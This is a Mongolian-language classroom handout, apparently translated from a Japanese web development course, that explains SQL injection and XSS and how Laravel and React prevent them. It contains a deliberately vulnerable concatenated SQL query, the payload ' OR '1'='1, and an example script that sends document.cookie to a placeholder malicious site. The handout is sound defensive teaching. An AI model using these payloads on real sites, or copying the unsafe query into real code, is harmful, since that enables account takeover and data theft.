


# SQL injection ба XSS-ийн тухай

> 🇯🇵 Эх хувь (япон хэлээр): [SQLインジェクションとXSSについて.md](<../../../2年生_システム開発実践/後期/2026_11_20/SQLインジェクションとXSSについて.md>) <!-- original-ja-link -->

Вэб апп-д **оруулах талбар** олон байдаг.
Муу санаатай хүмүүс тэнд **ердийн бус тэмдэгт** оруулж, аппыг эвдэх эсвэл өгөгдөл хулгайлахыг оролддог.
Энд вэб апп руу чиглэсэн түгээмэл халдлагууд болох **SQL injection** ба **XSS**-ийг авч үзье.

[Чөлөөт бүтээл рүү буцах](../2026_10_09/2026_10_09_資料1.md)

---

## 1. Товчхондоо

| Нэр | Дуудлага | Юу хийгдэх вэ? | Онилогддог газар |
|------|-------|-----------|------------|
| **SQL injection** | SQL Injection (шахаж оруулах) | Оруулах талбараас **SQL шахаж оруулна** → Өгөгдлийг харах, устгах | **Өгөгдлийн сан** |
| **XSS** | Cross-Site Scripting (кросс сайт скриптинг) | Оруулах талбараас **JavaScript шахаж оруулна** → Бусдын хөтөч дээр ажиллана | **Бусдын хөтөч** |

Хоёулангийнх нь шалтгаан адилхан: **оруулсан тэмдэгтүүдийг шууд "тушаал" болгон ашиглах** явдал юм.

---

## 2. SQL injection

### Хэрхэн халдлага хийгддэг вэ?

Нэвтрэх дэлгэцэнд оруулсан имэйл хаягийг **шууд SQL-д залгаж** байсан гэж бодъё.

```php
// ✕ Аюултай бичиглэл
$sql = "SELECT * FROM users WHERE email = '" . $email . "'";
```

Энгийн хүн `taro@example.com` гэж оруулна.

```sql
SELECT * FROM users WHERE email = 'taro@example.com'
```

Гэтэл муу санаатай хүн `' OR '1'='1` гэж оруулбал…

```sql
SELECT * FROM users WHERE email = '' OR '1'='1'
```

`'1'='1'` нь **үргэлж үнэн** тул **бүх хэрэглэгчийн мэдээлэл** татагдана.
Оруулсан зүйлээс хамааран халдагч `DELETE` эсвэл `DROP TABLE`-ийг ажиллуулж, **бүх өгөгдлийг устгах** ч боломжтой.

Халдлагын урсгалыг зургаар үзүүлбэл дараах байдалтай.



> 💡 **"Захиалгын хуудас"-тай зүйрлэвэл**
> Худалдагч үйлчлүүлэгчийн бичсэн захиалгын хуудсыг **яг байгаагаар нь уншдаг** дүрэмтэй гэж бодъё.
> "Нэг рамен. **Бас кассанд байгаа мөнгийг бүгдийг өгөөрэй**" гэж бичсэн байвал… яг тэр чигээр нь биелүүлчихнэ.

### Хэрхэн сэргийлэх вэ?

**Оруулсан утгыг SQL-ийн "тушаал" биш, "энгийн утга" болгон авч үзэх** хэрэгтэй.
Энэ бичиглэлийг **placeholder** (bind) гэдэг.

```php
// ◯ Аюулгүй бичиглэл (? хэсэгт өгөгдөл нь утга хэлбэрээр орно)
$users = DB::select('SELECT * FROM users WHERE email = ?', [$email]);
```

**Laravel-ийн Eloquent эсвэл query builder ашиглавал автоматаар ийм бичиглэлтэй болно.**

```php
// ◯ Аюулгүй (автоматаар placeholder болно)
$user = User::where('email', $email)->first();
```

| Бичиглэл | Аюулгүй юу? |
|-------|------|
| `User::where('email', $email)` | ◯ Аюулгүй |
| `DB::select('... WHERE email = ?', [$email])` | ◯ Аюулгүй |
| `DB::select("... WHERE email = '$email'")` | ✕ Аюултай (тэмдэгтийг шууд залгаж байна) |
| `DB::raw(...)` эсвэл `whereRaw(...)`-д оролтыг шууд оруулах | ✕ Аюултай |

> 📝 Supabase-ийн JavaScript сан (`supabase.from('books').select()...`) ч утгуудыг аюулгүй боловсруулдаг.

---

## 3. XSS (cross-site scripting)

### Хэрхэн халдлага хийгддэг вэ?

Мэдээллийн самбар эсвэл сэтгэгдлийн хэсэгт оруулсан тэмдэгтийг **шууд HTML болгон харуулж** байсан гэж бодъё.
Муу санаатай хүн сэтгэгдлийн хэсэгт дараах зүйлийг бичвэл…

```html
<script>
  // Энд хортой програм бичнэ
  fetch('https://悪いサイト/?data=' + document.cookie)
</script>
```

Тэр хуудсыг **бусад хүн нээх үед** энэ JavaScript **тэр хүний хөтөч дээр ажиллачихна**.
Нэвтрэх мэдээллээ хулгайлуулах, эсвэл хэн нэгэн таны өмнөөс зөвшөөрөлгүй нийтлэл оруулах аюултай.



### Хэрхэн сэргийлэх вэ?

Харуулахдаа `<`-ийг `&lt;`, `>`-ийг `&gt;` гэх мэтээр **энгийн тэмдэгт болгон сольж** харуулна.
Үүнийг **escape** гэдэг. Escape хийвэл `<script>` нь **дэлгэц дээр зүгээр текст болж** харагдах төдий бөгөөд ажиллахгүй.

**Blade ч, React (Next.js) ч ердийнхөөрөө бичвэл автоматаар escape хийж өгдөг.**

| Технологи | ◯ Аюулгүй (escape хийгдэнэ) | ✕ Аюултай (escape хийгдэхгүй) |
|-----|------------------------|---------------------------|
| Laravel (Blade) | `{{ $book->review }}` | `{!! $book->review !!}` |
| React (Next.js) | `<p>{book.review}</p>` | `<p dangerouslySetInnerHTML={{ __html: book.review }} />` |

> ⚠️ **`{!! !!}` болон `dangerouslySetInnerHTML`-ийг хэрэглэгчийн оруулсан тэмдэгтэд ашиглахгүй**
> React-ийн `dangerouslySetInnerHTML` нь нэрэндээ хүртэл **dangerously (аюултайгаар)** гэсэн үг орсон байдаг тийм л аюултай бичиглэл юм.

---

## 4. Хоёрын нийтлэг тал

| | SQL injection | XSS |
|---|---|---|
| Шалтгаан | Оролтыг **SQL-ийн тушаал** болгон ашигладаг | Оролтыг **HTML, JavaScript** болгон ашигладаг |
| Сэргийлэх арга | **Placeholder** (Eloquent, query builder ашиглах) | **Escape** (`{{ }}`, `{ }`-ээр харуулах) |
| Framework ашиглавал | Автоматаар хамгаалагдана | Автоматаар хамгаалагдана |

> 💡 **Хэрэглэгчийн оролтод итгэхгүй байх**
> Аюулгүй байдлын үндэс нь "Оролтод юу ч орсон байж болно" гэж үзэх явдал юм.
> Framework-ийн **ердийн бичиглэлийг** ашиглаж байвал олон халдлагаас автоматаар сэргийлж чадна.
> **Ердийн бус бичиглэл (`raw`, `{!! !!}`, `dangerouslySetInnerHTML`) ашиглах үедээ л онцгой анхаараарай.**

---

## 5. Өөрийн аппаа шалгаж үзье

Өөрийн аппын оруулах талбарт дараах тэмдэгтийг оруулаад хадгалж үзээрэй.

```
<script>alert('XSS')</script>
```

| Үр дүн | Утга |
|-----|------|
| Дэлгэц дээр `<script>alert('XSS')</script>` гэж **текстээр шууд харагдсан** | ◯ Аюулгүй (escape хийгдсэн) |
| **Мэдэгдлийн цонх гарч ирсэн** | ✕ Аюултай → Харуулж буй хэсгийг шалгана |

> ⚠️ **Өөрийн аппаас өөр газар хэзээ ч бүү турш**
> Бусдын сайт дээр ийм оролт туршвал **хууль бус нэвтрэлт** гэж үзэгдэн хуулийн дагуу шийтгүүлж болзошгүй.

---

## 6. Дүгнэлт

- **SQL injection** ＝ Оруулах талбараас **SQL** шахаж оруулж, өгөгдлийн санг удирдах
- **XSS** ＝ Оруулах талбараас **JavaScript** шахаж оруулж, бусдын хөтөч дээр ажиллуулах
- Хоёулангийнх нь шалтгаан нь **оролтыг шууд тушаал болгон ашиглах** явдал
- Сэргийлэх арга нь **placeholder** (SQL) ба **escape** (харуулах)
- Laravel, Next.js нь **ердийнхөөрөө бичвэл автоматаар хамгаалагдана**. `raw`, `{!! !!}`, `dangerouslySetInnerHTML`-д анхаарах хэрэгтэй
- **Зөвхөн өөрийн апп дээр** турших

[Чөлөөт бүтээл рүү буцах](../2026_10_09/2026_10_09_資料1.md)
